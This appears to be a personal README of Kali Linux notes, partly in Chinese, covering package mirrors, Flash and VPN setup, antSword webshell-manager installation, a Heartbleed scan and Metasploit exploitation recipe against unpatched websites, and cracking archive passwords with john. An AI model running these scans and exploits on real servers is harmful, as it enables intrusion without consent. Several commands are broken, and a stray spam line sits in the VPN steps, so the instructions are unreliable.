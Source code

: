 # using kali
> A Backup While using Kali , facing problems ,solving them .

## Daily Use

### apt source.list
```
#tsinghua mirrors
deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main non-free contrib
#deb-src http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main non-free contrib

deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling-only main non-free contrib
#deb-src http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling-only main non-free contrib
```

### update flash plugin
> 不知道为什么kali 自带的 update-flashplugin-nonfree --install 并不能成功更新flashplugin

1. 在https://get.adobe.com/cn/flashplayer/ 下载flash插件，或者是这个链接 https://fpdownload.adobe.com/get/flashplayer/pdc/11.2.202.621/install_flash_player_11_linux.x86_64.tar.gz  用的时候记得改下版本
2. 解压
```
wget https://fpdownload.adobe.com/get/flashplayer/pdc/11.2.202.621/install_flash_player_11_linux.x86_64.tar.gz -O /tmp/flash.tar.gz
cd /tmp
tar x -f flash.tar.gz
cp flash.tar/gz /var/cache/flashplugin-nonfree/
cd flash

#下面这一步是flash的readme里没有的，但是update-flashplugin-nonfree里有的
cp libflashplayer.so ~/usr/lib/flashplugin-nonfree/

cp libflashplayer.so ~/.mozilla/plugins/
cp -r usr/* /usr
```

### vpn 
1. `apt-get install network-manager-openvpn-gnome network-manager-pptp network-manager-pptp-gnome network-manager-strongswan network-manager-vpnc network-manager-vpnc-gnome`
2. restart the network-manager `service network-manager restart`
3. [获取网址]
如果您需要获取本站最新网址，可随时发任意邮件至  GreenDizhi@gmail.com  系统将自动回复最新网址到您的邮箱。

## Hacking Releated

### antSword
项目地址：`https://github.com/antoor/antSword`
主要问题是安装过程：参照 http://my.oschina.net/blogshi/blog/260953 
```
    这就妥妥的了，node文件夹具体放在哪，叫什么名字随你怎么定。然后设置全局：

ln -s /home/kun/mysofltware/node-v0.10.28-linux-x64/bin/node /usr/local/bin/node
ln -s /home/kun/mysofltware/node-v0.10.28-linux-x64/bin/npm /usr/local/bin/npm

    这里/home/kun/mysofltware/这个路径是你自己放的，你将node文件解压到哪里就是哪里。

```

### heartbleed
nmap+msfconsole</br>

learn from http://blog.163.com/xiao106347/blog/static/215992078201464059117/

非常实用的hack工具组合，首先得升级msfconsole至最新版，然后给nmap添加一个针对heartbleed的扫描脚本，用来发现心脏出血漏洞：
```
cd /usr/share/nmap/scripts/
wget https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse
cd /usr/share/nmap/nselib/
wget https://svn.nmap.org/nmap/nselib/tls.lua
nmap --script-updatedb
```
添加成功之后扫描一个没有更新openssl的网站：
`nmap -n -p 443 -Pn --script=ssl-heartbleed servers_ip`
出现如下漏洞信息：

然后`msfconsole`载入 `auxiliary/scanner/ssl/openssl_heartbleed` 模块：
```
msf > use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS xxx_ip
set RPORT 443
set VERBOSE true
exploit
```

#

### Update burpsuite in Kali
从官网下载最新版的burpsuite：https://portswigger.net/

`chmod 755 burpsuite.jar`

将新版本移动到/usr/bin目录下，然后更名为burpsuite：

`mv burpsuite.jar /usr/bin`
`mv burpsuite.jar burpsuite`

### use john to crack rar,zip
1. use binwalk to check it first!
2. use `rar2john` or `zip2john` to get a hashes
3. use john  to crack it
```
rar2john rarfile.rar > 1
john 1 --wordlist=1111111111111.lst
john 1 --show
```

### virtualbox
win 10 iso
`ed2k://|file|cn_windows_10_enterprise_2015_ltsb_x64_dvd_6848425.iso|3907538944|38E47AB92B6D97DF2BE602BBC9969D34|/`

